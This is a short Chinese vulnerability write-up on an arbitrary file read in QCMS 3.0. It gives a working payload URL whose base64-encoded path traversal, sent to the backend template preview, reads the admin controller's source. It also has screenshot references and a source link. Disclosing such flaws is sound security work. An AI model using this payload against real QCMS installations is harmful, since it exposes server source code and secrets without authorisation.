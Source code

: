 ```yaml
---
title: QCMS 3.0 任意文件读取
id: zhfly3100
---
```


# QCMS 3.0 任意文件读取

## 一、漏洞简介

## 二、漏洞影响

QCMS 3.0

## 三、复现过程

用seay扫了一下后发现的漏洞

漏洞在后台模板代码预览处，构造payload例如

```
http://www.0-sec.org/backend/template/tempview/Li4vLi4vLi4vQ29udHJvbGxlci9hZG1pbi5waHA=.html 
```

即可读取Controller文件下admin.php文件源码

![image](../img/2f8e731b0bd9350885237438ff3553db.png)

跟源码对比下，确实是读到了

![image](../img/14391e8bf4681783318a3265bd9773e2.png)

## 参考链接

> https://xz.aliyun.com/t/7269